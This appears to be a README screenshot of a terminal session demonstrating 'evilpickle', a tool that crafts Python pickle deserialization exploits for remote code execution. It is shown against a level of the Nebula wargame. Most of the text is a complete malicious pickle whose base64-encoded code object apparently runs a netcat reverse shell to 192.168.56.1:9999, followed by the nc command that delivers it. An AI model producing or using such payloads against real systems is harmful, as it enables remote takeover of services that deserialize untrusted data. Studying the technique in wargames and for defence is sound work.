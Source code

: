 ```shellsession
                        syyyyyyssssssyyyyyyyyyhyyyyyyy:                                             
                        hyyyyyyssssyyyyyyyyyyyyyyyyy/`                                              
                        hyyyyyyyyyyyyyyyyyyyyyyyyy/`                                                
                        oyyyyyyyyyyyyyyyyyyyyyyy/`                                                  
                         +yyyyyyyyyyyyyyyyyyys:                                                     
                          `:+syyyyyyyyyyys+:.                                                       
                              `.-://::-.                                                            
                                                                                                    
                                         
            .__.__           .__        __   .__          
  _______  _|__|  |   ______ |__| ____ |  | _|  |   ____  
_/ __ \  \/ /  |  |   \____ \|  |/ ___\|  |/ /  | _/ __ \ 
\  ___/\   /|  |  |__ |  |_> >  \  \___|    <|  |_\  ___/ 
 \___  >\_/ |__|____/ |   __/|__|\___  >__|_ \____/\___  >
     \/               |__|           \/     \/         \/ 

                         - A -
    - Pickle Deserialization Remote Code Execution - 
                  - Exploit Crafter -
     - Just provide the wanted to execute code -



                                A Supid Tool by Thesaurus 
___________________________________________________________
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :  
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zKwAAAG5jLnRyYWRpdGlvbmFsIC1lIC9iaW4vc2ggMTkyLjE2OC41Ni4xIDk5OTkoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: mypickle
[*] Writing it in mypickle

__________________________Job_Done_________________________
level17@nebula:/tmp$ nc 127.0.0.1 10007 < mypickle 
Accepted connection from 127.0.0.1:49810
```
